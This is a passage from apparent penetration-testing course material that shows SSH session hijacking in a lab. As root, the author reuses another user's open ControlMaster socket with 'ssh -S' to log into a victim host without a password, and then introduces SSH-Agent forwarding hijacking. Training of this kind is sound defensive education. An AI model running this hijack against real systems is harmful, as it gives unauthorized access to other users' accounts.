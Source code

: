 ```
root@controller:~# ls -al /home/offsec/.ssh/controlmaster
total 8
drwxrwxr-x 2 offsec offsec 4096 May 13 16:22 .
drwx------ 3 offsec offsec 4096 May 13 13:55 ..
srw------- 1 offsec offsec    0 May 13 16:22 offsec@linuxvictim:22

root@controller:~# ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
Last login: Wed May 13 16:22:08 2020 from 192.168.120.40
offsec@linuxvictim:~$ 
```

> Listing 19 - Hijacking as root with an open socket

Once again, we're able to log in to the linuxvictim machine without being required to enter a password.

1

(The MITRE Corporation, 2020), [https://attack.mitre.org/techniques/T1184/](https://attack.mitre.org/techniques/T1184/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5403-1)

2

(OpenBSD, 2020), [http://man.openbsd.org/ssh_config.5#ControlMaster](http://man.openbsd.org/ssh_config.5#ControlMaster) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5403-2)

3

(SSH Communications Security, Inc., 2020), [https://www.ssh.com/ssh/agent](https://www.ssh.com/ssh/agent) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5403-3)

4

(Wikibooks, 2020), [https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing](https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5403-4)

5

(die.net), [https://linux.die.net/man/5/ssh_config](https://linux.die.net/man/5/ssh_config) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5403-5)

### 17.1.4. SSH Hijacking Using SSH-Agent and SSH Agent Forwarding

Now that we've covered SSH hijacking with ControlMaster, let's move on to another technique. This method of SSH hijacking revolves around the use of _SSH-Agent_ and _SSH Agent Forwarding_.

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.

SSH agent forwarding is a mechanism that allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine. This is useful in situations where a user might need to ssh from an intermediate host into another network segment, which can't be directly accessed from the originating machine. It has the advantage of not requiring the private key to be stored on the intermediate server and the user does not need to enter their passphrase more than once.
